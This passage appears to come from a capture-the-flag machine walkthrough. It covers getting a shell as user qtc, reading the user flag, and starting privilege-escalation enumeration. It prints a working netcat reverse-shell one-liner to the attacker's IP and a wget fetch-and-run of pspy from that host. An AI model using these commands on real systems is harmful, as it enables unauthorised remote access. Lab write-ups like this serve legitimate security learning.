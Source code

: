 We get a response back and now have a shell as qtc. Let us upgrade the shell for easier usage:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f &
```

```
root@darkness:~# rlwrap nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.174.
Ncat: Connection from 10.10.10.174:36793.
/bin/sh: can't access tty; job control turned off
2f265ce12800:/home/qtc$ 
```

Upgrading the shell shows the hostname `2f265ce12800`. The strange hostname could mean that we are in a container. Let us further enumerate the machine and see if we can already read user.txt.

```bash
2f265ce12800:/home/qtc$ ls -alh
total 16
drwxr-sr-x    1 qtc      qtc         4.0K Oct 30  2019 .
drwxr-xr-x    1 root     root        4.0K Oct 30  2019 ..
drwx------    1 qtc      qtc         4.0K Oct 30  2019 .ssh
----------    1 qtc      qtc           33 Oct 30  2019 user.txt
2f265ce12800:/home/qtc$ chmod 400 user.txt
2f265ce12800:/home/qtc$ cat user.txt
7fab2***************************
```

The user.txt flag is not readable, however as we are the owner of the file, we can quickly change the permissions and read the file.

## Privesc to root

Now that we have a shell as user, let us enumerate the system, to find a privilege escalation vector.

### Enumeration as qtc

Let us upload pspy to the server and run it.

```bash
2f265ce12800:/tmp$ wget 10.10.14.8/pspy64
Connecting to 10.10.14.8 (10.10.14.8:80)
pspy64                14% |****                            |  446k  0:00:05 ETA
pspy64                71% |**********************          | 2137k  0:00:00 ETA
pspy64               100% |********************************| 3006k  0:00:00 ETA

2f265ce12800:/tmp$ chmod +x pspy64
2f265ce12800:/tmp$ ./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░
[...]
UID=0    PID=75     | crond -b 
```
